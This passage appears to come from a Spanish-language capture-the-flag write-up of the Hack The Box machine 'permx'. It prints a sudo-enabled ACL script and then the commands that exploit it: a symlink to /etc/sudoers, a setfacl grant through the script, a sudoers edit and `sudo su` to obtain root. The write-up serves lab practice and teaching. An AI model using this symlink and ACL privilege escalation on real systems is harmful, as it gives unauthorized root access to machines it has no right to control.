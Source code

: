 ```bash
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Se crea con ln una especie de vínculo entre los archivos y con el programa acl.sh se pueden otorgar los permisos necesarios para modificar el archivo sudoers y lograr la flag del root:

```bash
mtz@permx:~$ ln -s /etc/sudoers helpfile
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/helpfile
mtz@permx:~$ vim /etc/sudoers
```

![image](https://github.com/user-attachments/assets/7db194a3-2e31-4758-a6fc-f8d8754fbd9b)


```bash
mtz@permx:/$ sudo su
[sudo] password for mtz: 
Sorry, try again.
[sudo] password for mtz: 
root@permx:/#
```

https://app.hackthebox.com/profile/overview
